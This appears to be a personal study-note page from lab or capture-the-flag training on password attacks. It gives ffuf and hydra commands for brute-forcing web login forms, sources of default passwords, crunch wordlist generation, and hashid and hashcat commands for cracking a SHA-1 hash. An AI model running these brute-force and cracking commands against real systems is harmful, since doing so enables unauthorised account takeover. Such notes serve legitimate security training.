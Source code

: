 ````shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````

#ffuf 

Word list: [[Automated Discovery]]

```bash
hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
```

#hydra


default passwords:

- [https://cirt.net/passwords](https://cirt.net/passwords)
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/

https://wiki.skullsecurity.org/index.php?title=Passwords

Generate passwords:

crunch 8 8 0123456789abcdefABCDEF -o crunch.txt the file generated is 459 GB and contains 54875873536 words.

crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:  

@ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space

           `user@thm$  crunch 6 6 -t pass%% Crunch will now generate the following amount of data: 700 bytes 0 MB 0 GB 0 TB 0 PB Crunch will now generate the following number of lines: 100 pass00 pass01 pass02 pass03`


### CUPP - Common User Passwords Profiler

detect hash type
λ kali ~ → hashid 8d6e34f987851aa599257d3831a1af040886842f


dict based attack on sha-1
λ kali ~ → hashcat -m 100 -a 0 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt
